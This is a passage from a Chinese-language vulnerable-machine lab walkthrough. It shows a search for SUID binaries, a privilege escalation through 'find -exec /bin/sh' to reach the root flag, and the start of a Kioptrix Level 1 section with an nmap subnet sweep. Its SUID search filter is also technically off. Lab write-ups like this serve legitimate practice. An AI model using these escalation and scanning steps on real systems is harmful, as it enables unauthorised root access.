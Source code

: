 ```
由于太多suid文件的权限了，这里按照关键字找，于是找到find存在suid权限。
find / -perm -400 2>/dev/null | grep 'find'
```

![image-20241207014913704](vulnhub靶场实战/image-20241207014913704.png)	

```
使用该suid命令进行提权操作。
find / -name cron.php -exec "/bin/sh" \;
```

![image-20241207015207068](vulnhub靶场实战/image-20241207015207068.png)	

```
最后成功得到root的flag文件。
```

![image-20241207015254919](vulnhub靶场实战/image-20241207015254919.png)	

## Kioptrix_Level_1关卡

```
首先扫描c段，找出靶机的ip。
nmap -sP 192.168.15.1/24
```
